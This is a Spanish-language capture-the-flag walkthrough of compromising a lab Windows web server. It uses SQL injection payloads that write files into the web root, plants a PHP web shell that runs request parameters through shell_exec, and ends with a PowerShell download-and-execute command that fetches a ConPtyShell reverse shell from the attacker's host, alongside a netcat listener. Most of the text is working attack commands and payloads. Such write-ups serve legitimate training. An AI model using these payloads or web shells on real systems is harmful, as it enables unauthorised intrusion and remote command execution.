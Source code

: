 ```bash
rlwrap python3 sqli_injection.py
[+] Payload : ' union select 1,2,"test",4,5,6 into outfile "C:\inetpub\wwwroot\uploads\test.txt-- -
[+] Payload : ' union select 1,2,"test",4,5,6 into outfile "C:\\inetpub\\wwwroot\\uploads\\test.txt-- -
```

Si vamos a la url

```bash
 http://10.10.10.167/uploads/test.txt 
```

 vemos el fichero creado. Intentamos injectar codigo malicioso

```bash
rlwrap python3 sqli_injection.py
[+] Payload : ' union select 1,2,"<?php echo \"<pre>\" . shell_exec($_REQUEST['cmd']) . \"</pre>\"; ?>",4,5,6 into outfile "C:\inetpub\wwwroot\uploads\s4vishell.php-- -
```

Ya podemos comprobar que podemos ejecutar comandos en la url

```bash
 http://10.10.10.167/uploads/s4vishell.php?cmd=whoami 
```

.

Vamos a por ganar accesso al systema

1. Descargamos la nueva full TTY powershell

    ```bash
    git clone https://github.com/antonioCoco/ConPtyShell
    cd ConPtyShell
    stty size
    vi Invoke-ConPtyShell.ps1
    ```

1. Añadimos lo siguiente al final del fichero

    ```bash
    Invoke-ConPtyShell -RemoteIp 10.10.14.15 -RemotePort 443 -Rows 51 -Cols 189
    ```

1. Compartimos un servidor web con python

    ```bash`
    python3 -m http.server 80
    ``

1. Nos ponemos en escucha por el puerto 443

    ```bash
    nc -nlvp 443
    ```

1. Enviamos y ejecutamos el ficher Invoke-ConPtyShell.ps1

    ```bash
    http://10.10.10.167/uploads/s4vishell.php?cmd=powershell IEX(New-Object Net.WebClient).downloadString("http://10.10.14.15/Invoke-ConPtyShell.ps1")
    ```
